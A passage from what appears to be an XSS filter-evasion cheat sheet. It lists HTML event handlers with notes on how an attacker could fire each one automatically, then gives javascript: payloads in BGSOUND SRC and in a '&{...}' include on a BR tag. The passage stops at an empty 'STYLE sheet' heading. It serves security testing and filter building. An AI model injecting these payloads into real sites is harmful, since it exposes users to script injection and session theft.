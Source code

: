 ```
onResizeEnd() (user would resize the window; attacker could auto initialize with something like: <SCRIPT>self.resizeTo(500,400);</SCRIPT>)
onResizeStart() (user would resize the window; attacker could auto initialize with something like: <SCRIPT>self.resizeTo(500,400);</SCRIPT>)
onResume() (the onresume event fires on every element that becomes active when the timeline resumes, including the body element)
onReverse() (if the element has a repeatCount greater than one, this event fires every time the timeline begins to play backward)
onRowsEnter() (user or attacker would need to change a row in a data source)
onRowExit() (user or attacker would need to change a row in a data source)
onRowDelete() (user or attacker would need to delete a row in a data source)
onRowInserted() (user or attacker would need to insert a row in a data source)
onScroll() (user would need to scroll, or attacker could use the scrollBy() function)
onSeek() (the onreverse event fires when the timeline is set to play in any direction other than forward)
onSelect() (user needs to select some text - attacker could auto initialize with something like: window.document.execCommand("SelectAll");)
onSelectionChange() (user needs to select some text - attacker could auto initialize with something like: window.document.execCommand("SelectAll");)
onSelectStart() (user needs to select some text - attacker could auto initialize with something like: window.document.execCommand("SelectAll");)
onStart() (fires at the beginning of each marquee loop)
onStop() (user would need to press the stop button or leave the webpage)
onStorage() (storage area changed)
onSyncRestored() (user interrupts the element’s ability to play its media as defined by the timeline to fire)
onSubmit() (requires attacker or user submits a form)
onTimeError() (user or attacker sets a time property, such as dur, to an invalid value)
onTrackChange() (user or attacker changes track in a playList)
onUndo() (user went backward in undo transaction history)
onUnload() (as the user clicks any link or presses the back button or attacker forces a click)
onURLFlip() (this event fires when an Advanced Streaming Format (ASF) file, played by a HTML+TIME (Timed Interactive Multimedia Extensions) media tag, processes script commands embedded in the ASF file)
seekSegmentTime() (this is a method that locates the specified point on the element’s segment time line and begins playing from that point. The segment consists of one repetition of the time line including reverse play using the AUTOREVERSE attribute.)
```

BGSOUND

```js
<BGSOUND SRC="javascript:alert('XSS');">
```

## & JavaScript includes

```js
<BR SIZE="&{alert('XSS')}">
```

## STYLE sheet
